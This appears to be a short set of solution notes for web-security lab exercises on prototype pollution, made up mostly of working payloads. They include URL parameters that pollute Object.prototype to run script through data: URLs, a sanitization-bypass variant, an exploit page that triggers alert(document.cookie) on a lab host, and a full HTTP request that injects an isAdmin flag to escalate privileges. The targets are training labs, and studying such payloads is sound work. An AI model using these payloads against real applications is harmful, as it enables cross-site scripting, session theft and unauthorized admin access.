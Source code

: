 ## 1. Client-side prototype pollution via browser APIs

```
/?__proto__[value]=data:,alert(1);

data:[<media type>][;base64],<data>
```

This will also work `data:application/javascript,alert();`, in script src `application/javascript` is set by default.

## 2. DOM XSS via client-side prototype pollution

```
/?__proto__[transport_url]=data:,alert(1);
```

## 3. DOM XSS via an alternative prototype pollution vector


```
/?__proto__.sequence=);alert(
```

## 4. Client-side prototype pollution via flawed sanitization

```
/?__pro__proto__to__[transport_url]=data:,alert()
```

## 5. Scanning non-standard data structures

```html
<script>
    location="https://0ab600fe04a7f8c88152b16900bb004e.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```


## 6. Privilege escalation via server-side prototype pollution

```
POST /my-account/change-address HTTP/2
Host: 0a770041032ea20f8063b86b004e00b1.web-security-academy.net
Cookie: session=nGHufYaWkCvezfEZYUwGvWrdP6blmQup
Content-Length: 202
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: https://0a770041032ea20f8063b86b004e00b1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a770041032ea20f8063b86b004e00b1.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"nGHufYaWkCvezfEZYUwGvWrdP6blmQup",
	"__proto__":{"isAdmin":true}
}
```
